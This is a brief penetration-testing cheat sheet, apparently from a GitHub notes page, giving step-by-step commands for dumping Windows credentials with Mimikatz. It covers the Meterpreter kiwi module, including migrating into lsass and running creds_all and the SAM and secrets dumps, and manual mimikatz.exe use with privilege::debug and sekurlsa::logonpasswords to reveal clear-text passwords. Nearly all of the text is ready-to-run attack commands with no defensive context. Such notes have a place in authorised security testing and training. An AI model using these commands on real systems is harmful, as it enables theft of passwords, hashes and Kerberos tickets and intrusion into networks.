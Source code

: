 Mimikatz dump hashes, clear-text passwords and kerberos tickets from memory.
# Kiwi Module

```
In meterpreter
Migrate to lsass proccess
> load kiwi
> help -> for kiwi help
> creds_all
> lsa_dump_sam
> lsa_dump_secrets -> sometimes show clear-text passwords
```

# Mimikatz
Manual use gives more info
```
upload executable located in /usr/share/windows-resources/mimikatz/x[86/64]/mimikatz.exe
.\mimikatz.exe
>privilege::debug -> check necessary privileges
>lsadump::sam
>lsadump::secrets
>sekurlsa::logonpasswords -> shows logon passwords in cleartext
```